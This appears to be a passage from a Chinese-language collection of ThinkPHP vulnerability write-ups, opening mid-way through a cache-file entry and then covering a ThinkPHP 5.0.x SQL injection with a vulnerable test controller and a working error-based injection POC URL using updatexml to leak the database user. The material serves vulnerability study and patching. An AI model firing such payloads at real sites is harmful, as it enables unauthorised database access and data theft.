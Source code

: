     >注：%2F%2F%0D%0A = //+回车
    >```
    >
    >结果
    >
    >![img](https://xianzhi.aliyun.com/forum/media/upload/picture/20180105162252-9f9da230-f1f1-1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
    >
    >![img](https://xianzhi.aliyun.com/forum/media/upload/picture/20180105162252-9fc0e31c-f1f1-1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
    >
    >![img](https://xianzhi.aliyun.com/forum/media/upload/picture/20180105162252-9fdb9c02-f1f1-1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
    >
    >其中文件路径和名称是 b0+68931cc450442b63f5b3d276ea4297 而
    >
    >md5('name') = b068931cc450442b63f5b3d276ea4297
  
- ThinkPHP框架 5.0.x sql注入漏洞分析

  | 标题     | ThinkPHP框架 5.0.x sql注入漏洞分析 |
  | -------- | --------------------------------------------------- |
  | 时间     | 2018-04-09                                          |
  | 版本     | < 5.0.16                                            |
  | 文章链接 | <https://xz.aliyun.com/t/2257>                        |
  
  >测试方法
  >
  >```bash
  >git checkout 7c13757
  >```
  >
  >测试代码
  >
  >```php
  >public  function testsql()
  >    {
  >        $username = input('get.username/a');
  >        db('user')->where(['id'=> 1])->insert(['username'=>$username]);
  >    }
  >```
  >
  >POC
  >
  >```php
  >testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
  >```
  >
  >结果
  >
  >![img](https://xzfile.aliyuncs.com/media/upload/picture/20180409223720-825bb6c4-3c03-1.png)
  